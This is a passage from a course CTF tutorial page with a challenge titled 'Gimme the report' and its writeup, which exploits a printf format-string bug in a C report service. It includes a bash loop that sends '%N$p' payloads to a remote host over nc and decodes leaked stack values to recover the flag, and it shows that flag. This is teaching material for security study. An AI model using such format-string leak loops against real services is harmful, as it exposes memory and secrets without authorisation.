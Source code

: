 ### (5 pt) "Gimme the report." The Boss said

CS315 course is open, and this year we added some CTF challenges to the lab tutorial. After 3 weeks of teaching, our professor wants some feedback from students.

"Design a service, please. Gather some feedback and report from students of CS315."

"Sure." Answered in no time, but I got super nervous because of me, as a computer science graduate, don't know how to programming.

![meme](file\Week 3-1.jpg)

By the way, I already got some report said that `why this course so easy`, `please tell something hard`. Fine, I'll just write my program that reads from user input, but stores nothing.

No store, no vulnerability.

Yeah, I'm going to save my job!

[my_super_secret_report_service](https://wiki.compass.college/CS315/file/chall3-1)

[my_super_secret_report_service.c](file/chall3-1.c)

`nc ali.infury.org 10004`

#### Writeup

The flag is read into `flag` (on stack). To read, use the `printf(buffer)` vuln to read any arbitrary value from the stack with `%xx$p` where `xx` starts at `06` (top of stack). Since `buffer` is allocated first, you'll need to start at `0x200 / 8 + 6` (70).

> Oh, don't for get to start with `please` :-)

##### Exploit

```
#!/bin/bash

for ((i=70;;i++)) {
    B=$(echo 'please %'$i'$p' | nc mc.ax 31569 | grep please | awk '{print $2}')
    if echo $B | grep '7d' >/dev/null 2>&1
    then
        echo $B | sed 's/.*7d/7d/' | xxd -r -p | rev; echo
        break
    fi
    echo $B | awk -Fx '{print $2}' | xxd -r -p | rev
}
```

Output:

```
# ./sol.sh
flag{pl3as3_pr1ntf_w1th_caut10n_9a3xl}
```

### (5 pt) My Last Chance
